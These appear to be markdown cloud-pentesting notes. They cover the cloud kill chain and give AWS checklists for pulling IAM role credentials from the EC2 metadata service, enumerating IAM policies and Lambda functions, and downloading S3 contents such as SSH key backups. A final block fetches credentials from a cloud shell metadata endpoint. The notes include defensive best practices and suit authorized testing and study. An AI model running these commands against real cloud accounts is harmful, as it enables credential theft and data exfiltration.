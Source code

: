 
# Cloud basics
### Cloud kill Chain
![Untitled](../Media/Untitled.png)

A kill chain is useful to conceptualize and associate the steps that attackers might take in different phases of their operation.
Recon involves enumeration and foot-printing of the cloud infrastructure attack surface, as well as interacting with publicly exposed cloud services. Low hanging fruit such as S3 buckets and Azure/GCP storage buckets might yield cloud and SSH keys, passwords, confidential documents and personally identifiable information (PII). With access to keys or other credentials, we could look to infiltrate the target environment. Initial situational awareness activities will be undertaken, such as identification of other cloud resources and of the permissions and privileges associated with their current user or application.

With a foothold in the cloud infrastructure, we would then look to undertake privilege escalation activities. Privilege escalation within a specific cloud resource or the general cloud environment is useful, as it allows us to undertake additional activities, such as accessing other users’ data and cloud shell files, or capture traffic, and demonstrates the impact of our compromise. Being able to assume the role of a more privileged user also increases the likelihood of us being able to move laterally between cloud resources, accounts (AWS), projects (GCP) resource groups (Azure), or move laterally from an Azure tenant to an on-prem AD domain. In the final stage, we can demonstrate impact by the secure exfiltration of resources (assuming that this has been approved by the client).

### AWS Systems Manager (SSM) VS AWS Secrets Manager
SSM allows us to view and control our infrastructure on AWS.
SSM parameters allows for securely storing and managing sensitive information and configuration data. We can store data such as passwords, database connection strings, and license codes as parameter values. SSM and AWS Secrets Manager differ in cost and functionality. SSM is more cost-effective with free standard parameters up to 10,000 entries, while Secrets Manager charges for API calls and per secret monthly. 

Secrets Manager offers automatic password generation and rotation, which SSM lacks. 
Secrets Manager is recommended for comprehensive secret management, while SSM is a cost-friendly, basic solution.

# Checklist
## Computing Enum

> The Instance Metadata service is bound to the IP address 169.254.169.254, which is an internal link-local address that is not exposed or routable externally. We can interact with the service locally via a REST API.

This metadata can contain sensitive information such as credentials, if the administrators have attached an IAM role to the EC2 instance. As the metadata is only accessible internally, this may not appear to be particularly interesting from a security perspective. The presence of this metadata, on the other hand, makes Server-Side Request Forgery (SSRF) vulnerabilities in applications that are hosted on compute instances even more serious.

While the methods discussed in this post will work in cases where the legacy version of Instance Metadata Service (IMDSv1) is enabled, they won’t work with the more secure IMDSv2, which requires token authentication. However, IMDSv1 is still enabled by default, which means that this problem is still extremely important.
> 
- [ ]  Issue the command below to return the EC2 metadata `curl 169.254.169.254/latest/meta-data/`
- [ ]  If you reached the meta data visit the route  `/latest/meta-data/iam/info`
    
    ![Untitled](../Media/Untitled%201.png)
    
- [ ]  `/latest/meta-data/iam/security-credentials/{USER}`in the example the user is `support`
    
    ![Untitled](../Media/Untitled%202.png)
    
    > The `AccessKeyId` and `SecretAccessKey` are used to sign programmatic requests that we make to AWS (like username and pass). We also see a time-limited session token, provided by the AWS Security Token Service (AWS STS), that allows us to authenticate to cloud resources.
    > 
- [ ]  The command `aws configure`  allows us to save these values to an AWS credentials file, located at `~/.aws/credentials`

![Untitled](../Media/Untitled%203.png)

- [ ]  `aws configure set aws_session_token "<token_value>"` to store session token
- [ ]  `aws sts get-caller-identity` like whoami for awscli
- [ ]  `aws iam list-attached-user-policies --user-name {USERNAME}` to list the privileges
- [ ]  Best practices:
    1. Utilize version 2 of the Instance Metadata Service (IMDSv2).
    2. If you need to assign an IAM role to an EC2 instance, ensure that this only has the minimum permissions needed to perform the required tasks (in line with the principle of least privilege).
    3. Be mindful that the presence of instance metadata can make vulnerabilities such as SSRF much more dangerous.

## User Enum

- [ ]  list policies attached to a user `aws iam list-user-policies --user-name <USERNAME>`
    
    ![Untitled](../Media/Untitled%204.png)
    
- [ ]  Get the user policy document with details 
`aws iam list-user-policies --user-name <USERNAME>`
    
    ![Untitled](Cloud%20Pentesting%200b11d67ddeaa4b008990c9bda18d9fe3/Untitled%205.png)
    
- [ ]  Retrieving a param with SSM:`aws ssm get-parameter --name <PARAM NAME>`
- [ ]  Listing the available Lambda functions 
`aws lambda list-functions --query 'Functions[].[FunctionName, Runtime, LastModified]' --output table`
- [ ]  Invoking the function works 
`aws lambda invoke --function-name crew_administration_data output.txt`
- [ ]  use [aws-enumerator](https://github.com/shabarkin/aws-enumerator)  `aws-enumerator enum -services all`
- [ ]  listing all the policies attatched to a user
`aws iam list-attached-user-policies --user-name ext-cost-user`
- [ ]  getting a specific ploicy with ARN
`aws iam get-policy --policy-arn arn:aws:iam::427648302155:policy/ExtPolicyTest`
- [ ]  getting the policy document with its ARN 
`aws iam get-policy --policy-arn arn:aws:iam::427648302155:policy/Policy`
- [ ]  getting the policy document with its ARN and version `aws iam get-policy-version --policy-arn arn:aws:iam::427648302155:policy/Policy --version-id v4`
    
    ![Untitled](../Media/Untitled%206.png)
    
- [ ]  listing attached policies
`aws iam list-attached-user-policies --user-name ext-cost-user` 
`aws configure set aws_session_token "<token>"`
- [ ]  Getting the Account ID with Access key
`aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP`

## Storage and S3 Enum

- [ ]  Use `dig & dig -x` commands on the domain to see DNS info
- [ ]  Inspect the website source code for any related links for buckets like:
    
    ![Untitled](../Media/Untitled%207.png)
    
- [ ]  install `AWS CLI`   using `sudo pip install awscli --upgrade --user`
- [ ]  check if these buckets are accessible by listing the content `aws s3 ls s3://megabank-supportstorage --recursive`
- [ ]  you can search for publicly available buckets here https://buckets.grayhatwarfare.com/
- [ ]  Perform `curl -i https://<yourS3 domain>` to see headers of the response and to know what region the bucket in
- [ ]  search for sensitive info and download files by `aws s3 sync s3://megabank-supportstorage/pentest_report/`
- [ ]  Checking the bucket policy `aws s3api get-bucket-policy --bucket hl-it-admin`
    
    ![Untitled](../Media/Untitled%208.png)
    
- [ ]  Transferring files frim the S3 to ur PC `aws s3 cp s3://hl-it-admin/ssh_keys/ssh_keys_backup.zip .`
- [ ]  Best Practice:
    1. Don’t enable public access for cloud storage if this is not required.
    2. Don’t store confidential information on cloud storage that might be legitimately configured for public access.
    3. Name cloud storage appropriately so that it is obvious what the storage is for.

```
## asking for aws key and secret key from the cloud shell
-----------------------------------------------------------------------------------
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"

```


